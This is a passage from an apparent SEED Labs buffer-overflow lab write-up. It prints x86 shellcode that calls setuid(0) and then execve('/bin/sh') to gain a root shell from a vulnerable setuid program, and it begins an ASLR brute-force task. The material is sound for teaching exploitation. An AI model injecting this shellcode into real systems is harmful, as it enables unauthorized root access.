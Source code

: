 We need to compile it twice, one with `setuid(0);` commented and one with not commented. And we can find the difference:

![](images/Buffer-Overflow/Screenshot%20from%202019-10-22%2002-02-02.png)

**We can find that with `setuid(0);` not commented, the identity changed from SEED to ROOT.**

For further thinking, we will inject new shell code(similar to task 2) into stack and invoking dash as root. we need change the shell code in `exploit.c` into following code:

```c
char shellcode[] =
    "\x31\xc0"            /*Line 1: xorl     %eax,%eax*/
    "\x31\xdb"            /*Line 2: xorl     %ebx,%ebx*/
    "\xb0\xd5"            /*Line 3: movb     $0xd5,%al*/
    "\xcd\x80"            /*Line 4: int      $0x80*/
    // ---- The code below is the same as the one in Task 2 ---				"\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
```

The updated shell code adds 4 instructions:

(1) set `ebx` to zero.

(2) set `eax` to `0xd5` (`0xd5` is `setuid()`'s call number).

(3) execute the system call.

Using this shell code, we can attack on the vulnerable program when `/bin/bash` is linked to `/bin/dash`. Use the above shell code in `exploit.c` and try the attack from Task 2 again, see the difference:

![](images/Buffer-Overflow/Screenshot%20from%202019-10-22%2002-13-24.png)

From the result we can see the user has been changed from SEED to ROOT.



## Task 4: Defeating Address Randomization

On 32-bit Linux machines, stacks only have 19 bits of entropy, which means that the stack base address can have 2^19 = 524,288 possibilities. This number is not high and can be exhausted easily with brute-force approach. So now we gonna try it.

First let's open the address randomization:

```shell
$sudo /sbin/sysctl -w kernel.randomize_va_space=2
```
